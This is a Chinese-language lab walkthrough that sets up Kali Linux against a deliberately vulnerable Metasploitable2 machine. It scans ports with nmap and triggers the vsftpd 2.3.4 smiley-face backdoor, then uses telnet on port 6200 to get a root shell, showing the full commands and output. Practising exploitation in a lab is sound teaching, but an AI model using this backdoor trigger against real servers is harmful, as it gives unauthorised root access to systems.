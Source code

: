 # Kali实验环境介绍与使用

攻击机：Kali Linux；靶机：Metasploitable2

靶机系统开放了很多服务，查看系统监听的端口：`netstat -tln`，查看当前系统开放的服务：`rpcinfo -p localhost`

端口扫描工具`nmap`：

扫描target主机的1-1000端口：`nmap -p 1-1000 target`

---

## 通过发笑脸符号给FTP服务获得Shell权限

利用vsftpd漏洞：

``` Bash
root@kali:~# telnet target 21
Trying 192.168.122.102...
Connected to target.
Escape character is '^]'.
220 (vsFTPd 2.3.4)
USER abc:)
331 Please specify the password.
PASS pass
```

扫描发现6200端口已打开：

``` Bash
root@kali:~# nmap -p 6200 target
...
Host is up (0.0019s latency).
PORT     STATE SERVICE
6200/tcp open  unknown
MAC Address: 52:54:00:1A:11:0B (QEMU virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.35 seconds
```

获取root权限：

``` Bash
root@kali:~# telnet target 6200
Trying 192.168.122.102...
Connected to target.
Escape character is '^]'.
id;
uid=0(root) gid=0(root)
```

